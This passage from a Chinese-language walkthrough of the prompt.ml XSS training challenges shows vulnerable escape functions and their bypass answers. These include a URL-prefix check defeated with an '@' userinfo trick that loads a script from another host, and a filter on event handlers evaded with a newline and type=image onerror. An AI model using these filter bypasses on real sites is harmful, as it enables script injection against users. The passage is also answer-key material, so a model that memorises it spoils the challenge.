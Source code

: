 ### 代码

```
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}

```

### 答案

```
//prompt.ml%2f@ᄒ.ws/✌

```

Level 5
-------

* * *

过滤了`>`，过滤了`onXXX=`，过滤了`focus`，所以不能使用`autofocus`。但是可以使用js的换行`\n`绕过`onXXX=`，IE下依然可以使用`onresize`

### 代码

```
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}

```

答案： 一种答案是，可以提交设置`type`为`image`，后面的`type`不能覆盖前面的设置。

```
"type=image src onerror
="prompt(1)

```

IE下可以使用更短的答案：

```
"onresize
="prompt(1)

```
